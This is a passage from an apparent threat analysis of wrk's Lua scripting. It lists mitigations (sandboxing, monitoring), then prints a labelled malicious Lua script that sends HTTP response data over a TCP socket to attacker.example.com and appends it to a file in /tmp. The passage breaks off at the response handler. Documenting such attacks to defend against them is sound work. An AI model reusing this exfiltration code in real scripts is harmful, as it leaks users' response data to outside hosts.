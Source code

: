```markdown
      -- Assuming you only need the 'Content-Type' header
      local contentType = headers["Content-Type"]
      if contentType then
          print("Content-Type: " .. contentType) -- Only prints the Content-Type
      end
    end
    ```

7. **Sandboxing (Additional Mitigation):**
    *   Consider running the Lua scripts within a sandboxed environment to limit their access to the host system's resources. This can be achieved using technologies like:
        *   **Containers (Docker):** Run `wrk` and the Lua scripts within a Docker container with limited privileges and restricted network access.
        *   **Lua Sandboxes:** Explore Lua-specific sandboxing libraries or techniques to restrict the capabilities of the Lua interpreter. This is more complex but can provide finer-grained control.

8. **Monitoring and Alerting (Additional Mitigation):**
    * Implement monitoring and alerting to detect suspicious activity related to `wrk` and its Lua scripts.
    * Monitor file system access, network connections, and process execution for unusual patterns.
    * Set up alerts for any attempts to access sensitive files or connect to unauthorized hosts.

### 2.3  Example Malicious Script (Comprehensive)

```lua
-- MALICIOUS SCRIPT: Demonstrates multiple exfiltration techniques

-- Requires 'socket' and potentially 'JSON' libraries (for demonstration)
local socket = require("socket")
-- local json = require("json") -- If parsing JSON responses

-- Configuration (attacker would likely modify these)
local attacker_host = "attacker.example.com"
local attacker_port = 12345
local exfiltration_file = "/tmp/exfiltrated_data.txt"

-- Function to send data to the attacker's server
local function send_to_attacker(data)
  local client = socket.tcp()
  local ok, err = client:connect(attacker_host, attacker_port)
  if ok then
    client:send(data .. "\n")
    client:close()
  else
    -- In a real attack, the script would likely try to hide the error
    print("Error connecting to attacker: " .. err)
  end
end

-- Function to write data to a file
local function write_to_file(data)
  local file = io.open(exfiltration_file, "a")
  if file then
    file:write(data .. "\n")
    file:close()
  else
    -- In a real attack, the script would likely try to hide the error
    print("Error writing to file")
  end
end

-- The main response handler
function response(status, headers, body)
```
